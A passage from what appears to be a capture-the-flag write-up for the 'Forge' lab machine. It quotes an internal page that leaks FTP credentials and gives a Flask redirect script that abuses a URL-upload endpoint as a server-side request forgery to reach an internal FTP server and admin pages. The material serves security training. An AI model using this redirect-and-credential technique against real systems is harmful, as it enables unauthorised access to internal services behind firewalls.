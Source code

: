 ```markup
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

This reveals some credentials for us to use for FTP, which is behind a firewall. Since the `/upload` endpoint supports FTP traffic, we can make our script redirect us there using the `u` parameter and  `ftp://`.

```python
import os
from flask import Flask,redirect

app = Flask(__name__)

@app.route('/ftp')
def ftp():
    return redirect('http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1')

@app.route('/announce')
def announce():
    return redirect('http://admin.forge.htb/announcements',code=302)

@app.route('/')
def hello():
    return redirect("http://admin.forge.htb", code=302)

if __name__ == '__main__':
    # Bind to PORT if defined, otherwise default to 5000.
    port = int(os.environ.get('PORT', 5000))
    app.run(host='0.0.0.0', port=port)
```
